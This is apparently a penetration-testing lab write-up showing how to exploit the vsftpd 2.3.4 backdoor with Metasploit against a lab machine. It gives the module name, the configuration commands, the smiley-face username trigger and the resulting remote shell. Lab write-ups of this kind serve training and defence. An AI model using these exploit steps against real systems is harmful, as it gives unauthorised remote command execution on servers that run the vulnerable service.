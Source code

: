 # Exploiting vsftpd 2.3.4 Backdoor with Metasploit

## 🧠 Objective

Exploit the known backdoor in vsftpd 2.3.4 to gain shell access to the target machine using Metasploit.

---

## 🖥️ Target Info

- **Target IP**: 192.168.56.102
- **Service**: FTP (Port 21)
- **Vulnerable Version**: vsftpd 2.3.4
- **Tool Used**: `msfconsole`

---

## 🔍 Step 1: Launch Metasploit
```bash
msfconsole
```


## 🔍 Step 2: Search for the Exploit
```bash
search vsftpd
```
### 🔹 Result:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

## 🔍 Step 3: Configure the Exploit
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```
### 🔹 Result:
```
[*] Command shell session opened (You now have remote command execution as the nobody user.)
```


📝 Notes
```
This is a real backdoor present in vsftpd 2.3.4.
The exploit opens a shell on port 6200 when a special smiley face ":)" is used as part of the username.
No authentication is needed — this is a severe vulnerability.
```


🔚 Conclusion
```
The vsftpd 2.3.4 service on the target machine is vulnerable to a known backdoor that allows remote code execution.
This exploit provides initial access to the system, which could be followed by privilege escalation.
```
